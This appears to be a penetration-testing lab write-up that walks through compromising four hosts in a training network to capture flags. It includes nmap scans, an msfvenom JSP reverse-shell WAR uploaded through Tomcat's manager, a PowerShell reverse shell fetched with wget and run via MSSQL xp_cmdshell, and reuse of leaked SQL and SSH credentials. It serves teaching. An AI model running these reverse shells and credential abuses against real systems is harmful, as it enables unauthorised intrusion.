 ```yaml
---
description: >-
  You have been engaged in a Black-box Penetration Test (172.16.64.0/24 range).
  Your goal is to read the flag file on each machine.
---
```


# Black Box Test 1

## Discover live hosts on the network

```bash
sudo nmap -sn 172.16.64.0/24 --exclude 172.16.64.10 -oN hostAlive.nmap
cat hostAlive.nmap | grep for | awk {'print $5'} > ips.txt
sudo nmap -sV -n -v -Pn -p- -T4 -iL ips.txt -A --open -oG portScan.grep
```

### Nmap options

* `-sV` for version identification 
* `-n` for disabling reverse DNS lookup 
* `-v` for Verbose 
* `-Pn` to assume the host is alive 
* `-p-` to scan all the ports 
* `-T4` to speed things up 
* `-iL` to use a list of IPs as input \(ips.txt\) 
* `--open` to see just open ports and not closed / filtered ones 
* `-A` for detailed information and running some scripts

### Hosts Alive

| Host | OS |
| :--- | :--- |
| 172.16.64.101 | Linux |
| 172.16.64.140 | Linux |
| 172.16.64.182 | Linux |
| 172.16.64.199 | Windows |

## Open Ports and Running Services

###  172.16.64.101

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 22 | ssh | OpenSSH 7.2p2 |
| 8080 | http | Apache Tomcat/Coyote JSP engine 1.1 |
| 9080 | http | Apache Tomcat/Coyote JSP engine 1.1 |

### 172.16.64.140

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 80 | http | Apache httpd 2.4.18 |

### 172.16.64.182

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 22 | ssh | OpenSSH 7.2p2 |

### 172.16.64.199

| Port Number | Service | Version |
| :--- | :--- | :--- |
| 135 | msrpc | Microsoft Windows RPC |
| 139 | netbios-ssn | Microsoft Windows netbios-ssn |
| 445 | microsoft-ds |  |
| 1433 | ms-sql-s | Microsoft SQL Server 2014 |

## Machines

### 172.16.64.101

Apache Tomcat has [http://172.16.64.101:8080/manager/html](http://172.16.64.101:8080/manager/html) as a management url. In case your authentication fail several times, a 401 page is presented, with a default username and password:

![](../.gitbook/assets/image.png)

```bash
# Terminal 1
nc -l -p 8080

# Terminal 2
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.64.10 LPORT=8080 -f war -o revshell.war

# 1. Upload to http://172.16.64.10/manager/html
# 2. Open the suggested url in your browser to execute the reverse shell
# 3. Go to your opened nc listener on Terminal one and execute:
find / | grep flag.txt
/home/developer/flag.txt
/home/adminels/Desktop/flag.txt

# Your results should be something like:
cat /home/developer/flag.txt
Congratulations, you got it!
cat /home/adminels/Desktop/flag.txt
You did it!
```

### 172.16.64.140

Using Dirbuster we find a secret folder called **project**. This url is accessible under **admin/admin** credentials.

![](../.gitbook/assets/image%20%281%29.png)

![We find suspicious files under /project/backup/test](../.gitbook/assets/image%20%283%29.png)

![](../.gitbook/assets/image%20%282%29.png)

{% embed url="http://172.16.64.140/project/backup/test/sdadas.txt" %}

```text
Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt
```

### 172.16.64.199

```bash
# Grab payload
wget https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1;

# Substitute ip and port
sed -i 's/127.0.0.1/172.16.64.10/; s/413/1234/' mini-reverse.ps1

# Encode payload
cat mini-reverse.ps1 | iconv -f ascii -t utf16 | tail -c +3  | base64 -w 0 > encoded_payload
cat encoded_payload # We'll use this payload in our shell
# Open listener In your terminal
```

```bash
nc -lvnp 1234
```

```bash
# Use the credentials found in the fuzzed file under 
# project/backup/test in the previous machine
python2 /usr/share/doc/python3-impacket/examples/mssqlclient.py fooadmin:fooadmin@172.16.64.199
enable_xp_cmdshell
RECONFIGURE
xp_cmdshell whoami
xp_cmdshell powershell -e <payload_from_previous_step>
```

```text
cd c:\
where /r c:\ flag.txt
cd c:\Users\AdminELS\Desktop\
cat flag.txt
Congratulations! You exploited this machine! 
PS C:\Users\AdminELS\Desktop> cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAlGWzjgKVHcpaDFvc6877t6ZT2ArQa+OiFteRLCc6TpxJ/lQFEDtmxjTcotik7V3DcYrIv3UsmNLjxKpEJpwqELGBfArKAbzjWXZE0VubmBQMHt4WmBMlDWGcKu8356blxom+KR5S5o+7CpcL5R7UzwdIaHYt/ChDwOJc5VK7QU46G+T9W8aYZtvbOzl2OzWj1U6NSXZ4Je/trAKoLHisVfq1hAnulUg0HMQrPCMddW5CmTzuEAwd8RqNRUizqsgIcJwAyQ8uPZn5CXKWbE/p1p3fzAjUXBbjB0c7SmXzondjmMPcamjjTTB7kcyIQ/3BQfBya1qhjXeimpmiNX1nnQ== rsa-key-20190313###ssh://developer:dF3334slKw@172.16.64.182:22#############################################################################################################################################################################################
```

We find at the end of the `id_rsa.pub` file there are some ssh credentials for the remaining active machine:

### 172.16.64.182

We use the credentials harvested in the Windows machine:

```bash
sshpass -p dF3334slKw ssh developer@172.16.64.182
find . | grep flag
cat flag.txt 
Congratulations, you got it!
```

